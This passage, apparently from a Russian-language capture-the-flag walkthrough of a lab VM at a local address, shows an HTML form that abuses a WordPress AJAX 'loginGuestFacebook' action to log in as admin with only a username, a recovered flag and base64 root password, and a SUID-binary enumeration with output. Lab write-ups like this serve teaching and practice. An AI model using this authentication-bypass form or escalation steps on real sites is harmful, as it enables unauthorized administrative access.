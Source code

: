 >Последняя ссылка из файла оказалась намеком для следующего шага, уязвимость связана с эскалацией через поддельный запрос. Таким образом, с помощью формы из ссылки, мы входим в панель администратора зная только имя пользователя. Ниже HTML код формы, закрой теги чтобы юзать.

```html
form method="post" actions="http://192.168.56.118/wordpress/wp-admin/admin-ajax.php"
	Username: input type="text" name="username" value="admin"
		input type="hidden" name="email" value="sth"
		input type="hidden" name="action" value="loginGuestFacebook"
		input type="submit" value="Login"
	form
```

>Открываем форму в браузере и жмем кнопку, после нескольких попыток все таки сработал редирект и открылась пустая страница, переходим в верхнюю директорию и попадаем в панель администратора, заходим User -> Edit и берем второй флаг:

```html
Biographical Info:

Second Flag: 5DD1CC591CE1569A528E3B**********
RootPassword: SWduaXRlQDEyMw==
```

>Вернемся к консоли и просмотрим разрешения, которые предоставлены www-data:

```html
www-data@ubuntu://$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/arping
/usr/bin/wget
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/cp
/bin/su
/snap/core/6350/bin/mount
/snap/core/6350/bin/ping
/snap/core/6350/bin/ping6
/snap/core/6350/bin/su
/snap/core/6350/bin/umount
/snap/core/6350/usr/bin/chfn
/snap/core/6350/usr/bin/chsh
/snap/core/6350/usr/bin/gpasswd
/snap/core/6350/usr/bin/newgrp
/snap/core/6350/usr/bin/passwd
/snap/core/6350/usr/bin/sudo
/snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/6350/usr/lib/openssh/ssh-keysign
/snap/core/6350/usr/lib/snapd/snap-confine
```